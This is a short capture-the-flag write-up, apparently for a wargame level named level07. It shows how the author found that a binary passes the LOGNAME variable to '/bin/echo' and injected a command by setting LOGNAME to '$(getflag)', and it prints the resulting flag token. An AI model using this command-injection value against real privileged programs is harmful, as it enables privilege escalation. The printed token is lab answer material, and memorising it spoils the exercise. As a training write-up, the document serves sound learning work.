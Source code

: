 First, I checked the executable with ``strings`` and ``nm -u`` which gave me :
```
LOGNAME
/bin/echo %s 
```

I just checked if ``LOGNAME`` was a environement variable and I changed the value of ``LOGNAME`` with:

```bash
export LOGNAME=\$\(getflag\)
``` 

After that, we launch ``./level07`` :

``Check flag.Here is your token : fiumuikeil55xe9cu4dood66h``
